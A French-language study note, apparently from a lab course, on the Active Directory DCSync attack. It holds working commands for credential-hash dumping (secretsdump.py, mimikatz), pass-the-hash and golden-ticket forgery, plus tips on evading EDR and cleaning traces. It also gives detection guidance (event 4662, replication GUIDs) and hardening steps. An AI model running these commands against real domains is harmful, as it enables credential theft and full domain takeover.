

L'attaque **DCSync** permet d'extraire des secrets **NTLM** d'un contrôleur de domaine en simulant le comportement d'un serveur de réplication, exploitant ainsi les permissions **Replication-Get-Changes**.



## Vérification des privilèges

### Avec PowerView

Pour identifier si un utilisateur possède les permissions nécessaires, il est possible d'interroger les **ACL** sur l'objet domaine.

```powershell
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid adunn
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? {($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid}
```

> [!info]
> La présence des droits **DS-Replication-Get-Changes** et **DS-Replication-Get-Changes-All** est nécessaire pour effectuer l'attaque.

### Avec BloodHound

L'énumération via **BloodHound** permet de visualiser les chemins d'attaque complexes.

1. Collecte des données depuis un hôte compromis :
    ```powershell
    .\SharpHound.exe -c All
    ```
2. Analyse des résultats dans l'interface **BloodHound** en recherchant les privilèges de réplication.

> [!note]
> Cette méthode est complémentaire à l'énumération décrite dans **Active Directory Enumeration**.

## Analyse des permissions ACL spécifiques (GenericAll/WriteDacl)

L'attaque DCSync est souvent l'aboutissement d'une escalade de privilèges via des permissions mal configurées sur les objets AD. Un utilisateur possédant **GenericAll** ou **WriteDacl** sur un objet ayant les droits de réplication peut s'octroyer ces droits.

| Permission | Impact sur DCSync |
| :--- | :--- |
| **GenericAll** | Contrôle total, permet d'ajouter des permissions de réplication. |
| **WriteDacl** | Permet de modifier les ACL pour s'ajouter les droits `DS-Replication-Get-Changes`. |
| **WriteProperty** | Permet de modifier des attributs critiques (ex: `member` d'un groupe privilégié). |

Utilisation de PowerView pour identifier ces chemins :
```powershell
Get-ObjectAcl -Identity "Domain Admins" -ResolveGUIDs | ? {$_.ActiveDirectoryRights -match "WriteDacl"}
```

## Exécution de l'attaque

### Avec Impacket

L'outil **secretsdump.py** permet d'extraire les hashs sans interaction directe avec le service **LSASS** du contrôleur de domaine.

```bash
secretsdump.py -just-dc INLANEFREIGHT/adunn@10.129.236.70 -outputfile hashes
```

Extraction ciblée d'un utilisateur spécifique :

```bash
secretsdump.py -just-dc-user Administrator INLANEFREIGHT/adunn@10.129.236.70
```

### Avec Mimikatz

L'utilisation de **mimikatz** nécessite une session avec les privilèges appropriés.

1. Ouverture d'une session avec le contexte utilisateur :
    ```powershell
    runas /netonly /user:INLANEFREIGHT\adunn powershell
    .\mimikatz.exe
    ```
2. Exécution de la commande d'extraction :
    ```powershell
    lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:Administrator
    ```

Exemple de sortie :
```plaintext
SAM Username         : administrator
Hash NTLM           : 88ad09182de639ccc6579eb0849751cf
```

> [!danger] Risque de détection
> L'attaque **DCSync** génère des logs spécifiques dans le SIEM. Une surveillance accrue des événements **4662** est recommandée.

## Contournement des protections (EDR/AV)

Pour éviter la détection par les EDR lors de l'utilisation de **Mimikatz** (souvent détecté par signature), il est préférable d'utiliser des méthodes déportées.

*   **Utilisation d'Impacket** : L'exécution à distance via `secretsdump.py` ne touche pas le processus `lsass.exe` du DC, contournant ainsi les protections basées sur l'injection mémoire.
*   **Obfuscation** : Si l'exécution locale est requise, utiliser des versions compilées sur mesure ou des outils comme **Invoke-DCSync** (PowerSploit) avec des techniques d'obfuscation de script.
*   **Pass-the-Hash** : Utiliser des outils comme `mimikatz` en mode `sekurlsa::pth` pour obtenir un ticket Kerberos sans toucher aux fichiers sur disque.

## Détection avancée (Event ID 4662 détails)

L'attaque DCSync génère des événements **4662** (An operation was performed on an object) sur le contrôleur de domaine cible.

*   **Propriétés à surveiller** :
    *   `Access Mask` : `0x100` (Control Access).
    *   `Properties` : Doit contenir les GUIDs suivants :
        *   `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (DS-Replication-Get-Changes)
        *   `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` (DS-Replication-Get-Changes-All)
        *   `89e95b76-444d-4c62-991a-0facbeda640c` (DS-Replication-Get-Changes-In-Filtered-Set)

> [!warning]
> Un volume élevé d'événements 4662 provenant d'une source non-DC est un indicateur fort de compromission.

## Nettoyage des traces

Après l'exploitation, il est crucial de supprimer les artefacts créés :

1.  **Suppression des fichiers temporaires** : Si des outils ont été déposés (ex: `mimikatz.exe`), les supprimer immédiatement.
2.  **Nettoyage des logs** : Si des droits ont été modifiés (via `WriteDacl`), restaurer les ACL originales pour éviter la détection par des outils de monitoring de configuration (ex: BloodHound).
3.  **Session Cleanup** : Fermer les sessions `runas` ou `psexec` pour libérer les handles sur le DC.

## Exploitation des hashs

Une fois les hashs **NTLM** récupérés, plusieurs vecteurs d'exploitation sont possibles, notamment le **Pass-the-Hash** ou la création de **Golden Ticket Attack**.

### Pass-the-Hash avec Impacket

```bash
psexec.py administrator@10.129.236.70 -hashes aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf
```

### Golden Ticket avec Mimikatz

```powershell
kerberos::golden /user:Administrator /domain:INLANEFREIGHT.LOCAL /sid:S-1-5-21-xxxx /krbtgt:NTLM_HASH_KRBTGT /id:500
```

> [!tip]
> L'utilisation de ces hashs permet de s'affranchir de l'authentification interactive, facilitant le mouvement latéral après l'extraction.

## Défense

*   Restreindre les droits **DS-Replication-Get-Changes** exclusivement aux comptes des contrôleurs de domaine.
*   Auditer les événements **ID 4662** pour détecter les demandes de réplication non autorisées.
*   Appliquer le modèle de tiering pour limiter l'exposition des comptes à privilèges.
*   Utiliser **LAPS** pour la gestion des mots de passe administrateur locaux.

> [!warning]
> L'attaque ne nécessite pas d'exécution de code sur le contrôleur de domaine, ce qui rend la détection basée sur les EDR locaux inefficace. Une analyse des permissions **ACL** (notamment **GenericAll** ou **WriteDacl**) est indispensable pour prévenir l'élévation de privilèges menant au **DCSync**.

## Liens associés
*   Active Directory Enumeration
*   Kerberoasting
*   Pass-the-Hash
*   Golden Ticket Attack
*   BloodHound Analysis